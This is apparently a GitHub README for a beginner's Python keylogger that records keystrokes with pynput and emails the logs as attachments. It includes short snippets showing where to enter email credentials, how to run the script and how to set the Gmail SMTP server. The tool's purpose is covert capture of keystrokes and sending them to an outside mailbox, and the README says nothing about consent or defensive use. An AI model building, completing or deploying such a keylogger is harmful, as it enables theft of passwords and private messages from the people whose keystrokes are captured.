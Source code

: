 #### This keylogger is my first tool using python :D
#### It's a simple keylogger that sends email with logs attachment.
#### Thanks to [kahla-sec](https://github.com/kahla-sec) for help :D .
### How to use : 
#### 1. specify the address and the password of your email in the main
```python
k = keylogger("email","password")
```
#### 2. python keylogger.py ( or python3 keylogger.py )
#### Requirements :  pynput library
```shell
$pip install pynput
```
##### or
```sh
$pip3 install pynput
```
### NOTE
#### if you are using gmail, change the SMTP server to smtp.gmail.com
```python
serveur = SMTP("smtp.gmail.com",587)
```
